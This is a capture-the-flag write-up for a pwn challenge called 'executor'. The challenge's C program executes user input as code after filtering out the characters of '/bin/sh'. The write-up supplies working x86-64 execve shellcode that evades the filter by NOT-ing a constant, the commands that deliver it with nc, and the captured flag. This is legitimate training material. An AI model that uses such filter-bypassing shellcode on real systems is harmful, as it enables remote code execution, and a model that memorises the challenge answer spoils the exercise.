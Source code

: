 # [PWN] executor

## Vulnerability

Shellcode injection

# Source

```c
int main(void) {
  init();
  char *shellcode =
      mmap(NULL, SHELLCODE_MAX, PROT_READ | PROT_WRITE | PROT_EXEC,
           MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  printf("WHOM SHALL I EXECUTE FIRST: ");
  fgets(shellcode, SHELLCODE_MAX - 1, stdin);
  run_filter(shellcode);
  ((void (*)())shellcode)();
  return EXIT_SUCCESS;
}
```

```c
void run_filter(char *shellcode) {
  char *banned = "/bin/sh";
  for (int i = 0; i < strlen(banned); i++) {
    void *location = memchr(shellcode, banned[i], SHELLCODE_MAX - 1);
    if (location != NULL) {
      puts("I AM SO DONE WITH YOU ALL JUST SPAMMING /bin/sh PAYLOADS. THAT IS "
           "BANNED. COME UP WITH A NEW SHELLCODE IF YOU WANT THE FLAG");
      exit(EXIT_FAILURE);
    }
  }
}

```

## Exploit

Here the malicious user input is directly executed as a function by the program. So the goal is simple, come up with a shellcode.



Problem? `run_filter` is the main obstacle. It not only blocks the standard `/bin/sh` based payload, but it also blocks every single payload which contains any character of `/bin/sh`.



Solution? There can be multiple solutions, creativity is the key.

Here's my intended solutions

1. Avoid /bin/sh altogether and use it open->read->write flag.txt sequence.

2. Use clever dynamic construction like `not 0xff978cd091969dd0` which would convert to `/bin/sh` at runtime.

```nasm
global _start

section .text

_start:
        ;    int3
        mov  rdi, 0xff978cd091969dd0
        not  rdi
        push rdi
        mov  rdi, rsp
        mov  rsi, 0
        mov  rdx, 0
        mov  rax, 59
        syscall

```

```shell
➜  executor nasm -f elf64 solution.asm -o solution.o
➜  executor objcopy --dump-section .text=raw solution.o
➜  executor cat raw - | nc <server_ip> 50000
WHOM SHALL I EXECUTE FIRST:
ls
executor flag.txt
cat flag.txt
DJSISACA{Y0U_4r3_4_sh3lLc0d1N9_pR0}
```

## Flag

`DJSISACA{Y0U_4r3_4_sh3lLc0d1N9_pR0}`
